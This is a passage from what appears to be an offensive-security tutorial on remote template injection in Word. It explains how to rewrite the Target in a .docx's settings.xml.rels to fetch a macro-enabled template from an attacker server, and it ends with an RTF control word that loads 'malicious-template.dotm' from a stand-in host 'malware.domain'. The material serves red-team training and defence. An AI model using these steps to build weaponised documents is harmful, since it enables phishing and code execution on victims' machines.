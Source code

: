 Assume that we going to use the document that we've have created in VBA Macro section above. I've added a line to pop-up a msgbox that tell us that our remote template injection is successful:
![image](https://user-images.githubusercontent.com/56353946/203392386-8f47d612-a283-4fe4-8b07-39197ea8203b.png)

Save the file as Macro-Enabled Template `.dotm` format.

Now, let's create a normal document using a free template from Microsoft Office. In my case, I'll using a free template named "Blue grey resume":
![image](https://user-images.githubusercontent.com/56353946/203392514-f3332b05-0e8b-42f4-979b-45bed36b62a4.png)

Then, save the document as `.docx`. Now we have the both documents that we need:
![image](https://user-images.githubusercontent.com/56353946/203392656-83ef7986-639a-4f6d-8ef2-2ce031c185d9.png)

Unzip the docx using decompress tool. In my case, I'll using 7zip. From here, we can start to see the files containing in the docx file:
![image](https://user-images.githubusercontent.com/56353946/203392752-9744e411-04f3-430e-a6e5-f10c27f69e52.png)

Navigate to `word/_rels/` folder, and we can start modifying the content of `setting.xml.rels`. Replace the content of the attribute `Target` in the file `setting.xml.rels` with your remote document serve in your server:
![image](https://user-images.githubusercontent.com/56353946/203392917-76519ec3-f599-4ef9-a376-74a46221f0f9.png)

Here my Kali box will serving the malicious template that we've created:
![image](https://user-images.githubusercontent.com/56353946/203393027-3663a445-8442-4bbd-8a0c-106d99ad8b56.png)

Replace the original link with our document link and save the file:
![image](https://user-images.githubusercontent.com/56353946/203393073-0cc9af37-634f-4d8e-a487-05b7039d39c3.png)

Now, compressed back all the files to a zip. Then change the `.zip` format to `.docx`:
![image](https://user-images.githubusercontent.com/56353946/203393164-ebaa4bcf-c3b6-4ee2-b089-3b863eb82078.png)
![image](https://user-images.githubusercontent.com/56353946/203393250-1f200351-6856-4c84-8471-3f005b12c729.png)

Now this document has contain the malicious remote template injection. Upon opening and Enabling Content of the document, the code will executed:
![image](https://user-images.githubusercontent.com/56353946/203393423-0460fab1-45de-48ea-8e25-3218a1a741ac.png)

## RTF Template injection
First, create a malicious `.dotm` document like we discussed in section Word Template injection above. Serve the file on the internet.

Then, create a microsoft word file and save it as `.rtf`:

![image](https://user-images.githubusercontent.com/56353946/203395416-92f0610a-41d4-44e7-8e67-df2eee27c08d.png)


After saving it, open the RTF file with text editor. Then put the below control word `template` in the RTF.
```
{\*\template http://malware.domain/malicious-template.dotm}
```
